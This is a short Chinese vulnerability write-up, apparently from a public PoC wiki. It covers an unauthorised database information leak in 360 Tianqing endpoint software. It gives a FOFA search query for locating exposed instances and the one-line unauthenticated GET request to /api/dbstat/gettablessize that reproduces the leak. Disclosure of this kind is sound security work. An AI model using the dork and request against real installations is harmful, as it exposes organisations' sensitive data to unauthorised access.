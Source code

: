 # 天擎 数据库信息泄露漏洞

## 漏洞描述

天擎 存在未授权越权访问，造成敏感信息泄露

## 漏洞影响

> [!NOTE]
>
> 天擎

## FOFA

> [!NOTE]
>
> title="360新天擎"

## 漏洞复现

```
GET /api/dbstat/gettablessize HTTP/1.1
```

![](http://wikioss.peiqi.tech/vuln/tq-2.png)

## Goby & POC

> [!NOTE]
>
> 已上传 https://github.com/PeiQi0/PeiQi-WIKI-POC Goby & POC 目录中
>
> 360_Tianqing_database_information_disclosure

![](http://wikioss.peiqi.tech/vuln/tq-3.png)
